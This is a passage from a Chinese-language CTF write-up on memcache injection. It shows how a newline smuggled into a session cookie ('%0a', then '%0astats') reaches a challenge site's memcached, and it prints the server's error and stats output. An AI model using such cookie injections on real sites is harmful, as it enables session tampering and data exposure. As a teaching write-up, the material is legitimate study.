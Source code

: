 0x04 Memcache Injection实例
=========================

* * *

最近的一次ctf中，有一个典型的基于CLRF的Memcache注入。（目前该站可以访问）

`http://login2.chal.mmactf.link/login`

login as admin

登录之后的请求是这样的

```
GET / HTTP/1.1
Host: login2.chal.mmactf.link
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:38.0) Gecko/   20100101 Firefox/38.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://login2.chal.mmactf.link/login
Cookie: ss=c4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb
Connection: keep-alive

```

在测试http头注入的时候，我们发现将%0a注入到cookies中时,也就是请求：

`Cookie: ss=%0ac4a613cdf3378b458be9a6d8de6c52c6ab260d1ee5c2d94df6fe260e580b16bb`

返回如下

```
</div>
<div id="info">
<p>MemcacheError:ERROR  
ERROR</p>
</div>
</body>
</html>

```

恩，memcached出错了，那不就是刚刚提到的error吗？

```
> 1234567890
< ERROR

```

说明这里ss的value代入了memcached。

我们继续在cookies里面注入:ss=%0astats

```
MemcacheError:ERROR
STAT pid 988
STAT uptime 651664
STAT time 1442726665
STAT version 1.4.14 (Ubuntu)
STAT libevent 2.0.21-stable
STAT pointer_size 64
STAT rusage_user 17.256000
STAT rusage_system 18.232000
STAT curr_connections 5
STAT total_connections 946
STAT connection_structures 6
STAT reserved_fds 20
STAT cmd_get 615
STAT cmd_set 188
STAT cmd_flush 0
```